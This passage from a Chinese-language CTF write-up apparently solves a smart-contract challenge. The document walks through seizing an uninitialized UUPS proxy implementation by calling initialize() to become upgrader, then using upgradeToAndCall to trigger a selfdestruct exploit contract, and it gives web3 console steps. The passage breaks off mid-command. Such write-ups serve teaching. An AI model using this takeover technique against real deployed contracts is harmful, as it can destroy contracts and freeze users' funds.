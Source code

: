         // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
        function _upgradeToAndCall(
            address newImplementation,
            bytes memory data
        ) internal {
            // Initial upgrade and setup call
            _setImplementation(newImplementation);
            if (data.length > 0) {
                (bool success,) = newImplementation.delegatecall(data);
                require(success, "Call failed");
            }
        }
        
        // Stores a new address in the EIP1967 implementation slot.
        function _setImplementation(address newImplementation) private {
            require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
            
            AddressSlot storage r;
            assembly {
                r_slot := _IMPLEMENTATION_SLOT
            }
            r.value = newImplementation;
        }
    }
    ```

同样有些复杂，最终目的是要销毁掉 Engine

因为整个合约中都没有 selfdestruct，所以要载入自己的合约，可以通过 upgradeToAndCall 函数来载入合约并调用，这需要通过 _authorizeUpgrade 函数的检查，也就是检查 sender 是否是 upgrader，而改变 upgrader 可以通过 initialize 函数来完成

所以攻击流程就是先通过 getStorageAt 来得到部署的 Engine 的地址，然后调用 initialize，upgradeToAndCall 一个部署的新合约，让它触发 selfdestruct 就好了

新合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Exploit {
    function exp() public {
        selfdestruct(payable(0));
    }
}
```

攻击流程：
```js
> await web3.eth.getStorageAt(instance, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
'0x000000000000000000000000<engine address>'
> engine = "0x<engine address>"
> data = web3.utils.sha3("initialize()").slice(0, 10)
'0x8129fc1c'
> web3.eth.sendTransaction({from: player, to: engine, data: data})
> await web3.eth.call({from: player, to: engine, data: web3.utils.sha3("upgrader()").slice(0, 10)}) // 验证 upgrader
'0x000000000000000000000000<player address>'
> exp = "<Exploit contract address>"
> expdata = web3.utils.sha3("exp()").slice(0, 10)
'0xab60ffda'
> signature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
```
